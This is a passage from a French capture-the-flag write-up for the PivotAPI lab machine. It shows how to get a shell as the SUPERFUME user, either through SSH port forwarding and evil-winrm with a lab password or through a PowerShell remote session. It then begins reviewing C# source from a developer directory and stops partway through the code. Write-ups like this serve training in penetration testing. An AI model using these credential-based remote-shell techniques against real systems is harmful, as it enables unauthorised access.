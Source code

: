 Récupérer un shell en forwardant le port WinRM et en se connectant avec [evil-winrm](https://github.com/Hackplayers/evil-winrm) :

```bash
❯ ssh -L 5985:localhost:5985 3v4Si0N@PivotAPI.LicorDeBellota.htb
❯ evil-winrm -i localhost -u 'SUPERFUME' -p 'Password123!'
```

### Method 2 : Create PSSession as SUPERFUME user

```powershell
PS C:\Users\3v4Si0N\Desktop> $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\Users\3v4Si0N\Desktop> $Cred = New-Object System.Management.Automation.PSCredential('LicorDeBellota\SUPERFUME', $UserPassword)
PS C:\Users\3v4Si0N\Desktop> $session = new-pssession -computername 127.0.0.1 -Credential $Cred
PS C:\Users\3v4Si0N\Desktop> Enter-PSSession -session $session
```

## C# Source code review

On peut maintenant accéder au répertoire `C:\Developers\` :

```powershell
[127.0.0.1]: PS C:\> ls -R C:\Developers

    Directorio: C:\Developers

Mode                LastWriteTime         Length Name

----                -------------         ------ ----

d-----       08/08/2020     19:26                Jari

d-----       08/08/2020     19:23                Superfume

    Directorio: C:\Developers\Jari

Mode                LastWriteTime         Length Name

----                -------------         ------ ----

-a----       08/08/2020     19:26           3676 program.cs

-a----       08/08/2020     19:18           7168 restart-mssql.exe
```

On a un exécutable qui permet d’après son nom de restart le service MSSQL avec son code source écrit en C# :

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Threading;

namespace restart_oracle
{
    class Program
    {
        public class RC4
        {

            public static byte[] Encrypt(byte[] pwd, byte[] data)
```